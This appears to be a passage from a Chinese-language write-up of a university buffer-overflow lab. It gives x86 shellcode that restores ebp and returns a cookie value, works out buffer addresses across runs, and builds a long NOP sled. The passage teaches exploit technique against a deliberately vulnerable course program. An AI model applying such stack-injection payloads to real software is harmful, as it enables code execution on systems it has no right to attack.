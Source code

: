在 `MOV` 指令执行完毕时 `esp` 与 `ebp` 的值相等，之后执行了一次 `PUSH`（`esp`值减 `4`），再执行 `SUB` 指令，所以 `ebp = esp+0x28`。

设计如下代码：

```x86asm
lea 0x28(%esp),%ebp     # restore ebp
push $0x08048ce2        # set return address
mov $0x23a81b97,%eax    # return value (cookie)
ret
```

接下来需要确定跳转的地方，即 `getbuf` 的返回地址。虽然 5 次调用的栈帧地址不同，但是多次执行程序，每次都是相同的，所以可以确定跳转的范围：

| 次数 | `ebp` 的值   | `buffer` 的首地址 |
| ---- | ------------ | ----------------- |
| 1    | `0x55682f80` | `0x55682d78`      |
| 2    | `0x55682f50` | `0x55682d48`      |
| 3    | `0x55682f60` | `0x55682d58`      |
| 4    | `0x55682f00` | `0x55682cf8`      |
| 5    | `0x55682f40` | `0x55682d38`      |

跳转的安全范围应当是 `buffer ~ ebp`，而 `buffer` 最大为 `0x55682d78`，所以选择跳转至 `0x55682d78` 一定能落在恶意数据的范围内。

接下来确定填充的数据，它应当满足以下两个条件：

1. 本身不会影响到程序的功能
2. 指令长度应当为 `1` 个字节，以免跳转至一条指令的中间部分导致错误

恰好 `NOP` 指令满足以上条件，其值为 `0x90`。

设计如下字符串：

```
/* nop sleds 505 Bytes */
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
```